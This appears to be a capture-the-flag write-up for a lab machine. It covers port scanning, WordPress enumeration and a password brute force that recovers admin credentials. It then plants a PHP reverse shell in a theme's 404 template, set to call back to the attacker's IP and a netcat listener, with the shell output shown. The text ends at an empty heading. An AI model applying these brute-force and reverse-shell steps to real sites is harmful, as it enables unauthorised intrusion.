 # Internal-Writeup
## Recon

Machine booted, let's see if it is up with some pings
```
ping 10.10.247.233                         
PING 10.10.247.233 (10.10.247.233) 56(84) bytes of data.
64 bytes from 10.10.247.233: icmp_seq=1 ttl=63 time=80.8 ms
64 bytes from 10.10.247.233: icmp_seq=2 ttl=63 time=81.8 ms
^C
--- 10.10.247.233 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 80.812/81.283/81.754/0.471 ms
```

Machine is up, let's do some basic port scan
`nmap -p- -O -A -sV 10.10.247.233`
Output:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   57.43 ms 10.8.0.1
2   57.51 ms internal.thm (10.10.247.233)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.97 seconds
```
Interesting. No more ports open besite http. This will be web based penetration testing.

## Web application recon
MANUAL:
- Index page is showing the default ubuntu-apache page. No significant html comments are made inside
- robots.txt sitemap.xml php.ini and more files give 404. There must be some directories that are hosting website outside /var/www/html so we will have to switch to automated method or brute forcing directories

AUTOMATED:
- Using dirbuster we brute forced directories on given server.
Results:
```
/phpmyadmin/ (shows login page of phpmyadmin, not outdated vulnerable version)
/blog/ (dirbuster detected some basic wordpress directories and files which confirms this is wordpress based website)
```

While looking at the index page of blog we only see basic page with twentyseventeen theme. 
Looking at source code we don't see anything crucial, we can see plugins, themes, some uploads but nothing crucial.
As I checked for robots.txt which returned 404 i remembered i should check for sitemap.xml which can give me informations about users and authors which i can later brute force on login if i don't find any vulnerable theme or plugin.
But sitemap.xml returned 404 so i ran my tool which enumerates authors and usernames through the archives and posts.
We got username `admin` which we will note for the case where we don't find any vulnerability.
For scanning vulnerabilities on wordpress websites we will use `WPscan` which is great enumeration and vulnerability scanning tool.
Unfortunately we found 39 vulnerabilities which are probably not intentionally left there so we will brute force login with same tool and we can get back to those CVEs later.

Using a `/usr/share/wordlists/rockyou.txt` wordlist we will attack the wp-login.php page which is located in `http://internal.thm/blog/wp-login.php`.
Bingo! `Valid Combinations Found: Username admin, Password my2boys`
We will use these given credentials to login on the admin panel
`admin:my2boys`

## Getting access
After successfully logging in the admin panel, we get prompted with question if we want to update the admin email or leave it as it is.
We will skip on this one because our goal is getting webshell or reverse shell.
For this purposes idea is to edit built-in pages with the malicious code which will execute under condition that we visit website.

So twentyseventeen is a theme. Themes got their own custom 404 page that will run when you visit non-existing page. So for a fact we know that we can modify that page which we will do.
Through the admin panel, we can see the side menu on left side which contains tab themes.
So the path is `Themes>>Theme editor>>404.php`

`https://github.com/pentestmonkey/php-reverse-shell`is great for these purposes as it can run as logic bomb when visited. You can download it, modify by just adding your ip address and port as following:
```
$ip = '10.8.22.53';  // CHANGE THIS TO YOUR IP
$port = 1234;       // CHANGE THIS TO WANTED PORT
```
And you can finally start your connection listener on all interfaces by running `nc -lvnp 1234` in your command line.
After pasting whole reverse shell code in the 404 template you can press `Publish` and visit the page with following url http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
Bingo! Reverse shell!
```
$ nc -lvnp 1234            
listening on [any] 1234 ...
connect to [10.8.22.53] from (UNKNOWN) [10.10.247.233] 54424
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:52:46 up  3:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We got access as `www-data`

## Internal recon
